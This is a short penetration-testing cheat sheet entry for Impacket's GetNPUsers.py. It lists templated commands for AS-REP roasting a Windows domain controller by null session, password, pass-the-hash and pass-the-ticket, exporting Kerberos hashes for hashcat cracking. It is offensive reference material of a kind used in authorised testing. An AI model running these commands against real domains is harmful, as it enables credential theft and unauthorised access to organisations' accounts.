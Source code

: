# GetNPUsers.py(imp)

% impacket-kerberos, windows, kerberos, 88, ASREPRoasting

#plateform/linux #target/remote #cat/ATTACK/EXPLOIT 

## desc
```
Queries target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking
```

## ASREPRoasting (null session)
```bash
GetNPUsers.py  -request -format hashcat -outputfile <outfile|npuser.hash> -dc-ip <dc_fqdn> -no-pass <domain_fqdn>/
```

## ASREPRoasting (creds)
```bash
GetNPUsers.py -request -format hashcat -outputfile <outfile|npuser.hash> -dc-ip <dc_fqdn> <domain_fqdn>/<user>:'<password>'
```

## ASREPRoasting (pth)
```bash
GetNPUsers.py  -request -format hashcat -outputfile <outfile|npuser.hash> -dc-ip <dc_fqdn> -hashes :<nt_hash> <domain_fqdn>/<user>
```

## ASREPRoasting (ptt)
```bash
KRB5CCNAME=<ccache> GetNPUsers.py  -request -format hashcat -outputfile <outfile|npuser.hash> -dc-ip <dc_fqdn> -no-pass -k <domain_fqdn>/<user>
```
